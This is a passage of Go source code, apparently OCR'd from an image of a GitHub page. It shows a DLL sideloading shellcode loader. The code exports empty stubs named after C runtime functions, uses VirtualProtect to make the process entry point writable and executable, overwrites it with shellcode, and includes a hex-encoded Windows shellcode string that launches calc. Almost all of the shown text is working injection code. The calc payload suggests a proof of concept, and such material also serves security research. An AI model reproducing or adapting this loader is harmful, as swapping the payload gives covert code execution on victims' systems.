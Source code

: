       60.     var oldfperms uint32
    
      61.     if !VirtualProtect(unsafe.Pointer(entryPoint), unsafe.Sizeof(uintptr(len(shellcode))), uint32(0x40), unsafe.Pointer(&oldfperms)) {
    
      62.         panic("Call to VirtualProtect failed!")
    
      63.     }
    
      64.     WriteMemory(shellcode, entryPoint)
    
      65.     if !VirtualProtect(unsafe.Pointer(entryPoint), uintptr(len(shellcode)), uint32(oldfperms), unsafe.Pointer(&oldfperms)) {
    
      66.         panic("Call to VirtualProtect failed!")
    
      67.     }
    
      68. }
    
      69.   
    
    
      70. //export _except_handler4_common
    
      71. func _except_handler4_common() {}
    
      72.   
    
    
      73. //export memcmp
    
      74. func memcmp() {}
    
      75.   
    
    
      76. //export memcpy
    
      77. func memcpy() {}
    
      78.   
    
    
      79. //export memset
    
      80. func memset() {}
    
      81.   
    
    
      82. //export memmove
    
      83. func memmove() {}
    
      84.   
    
    
      85. //export test
    
      86. func test() {
    
      87.     shellcode, err := hex.DecodeString("fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c6300") // calc的shellcode
    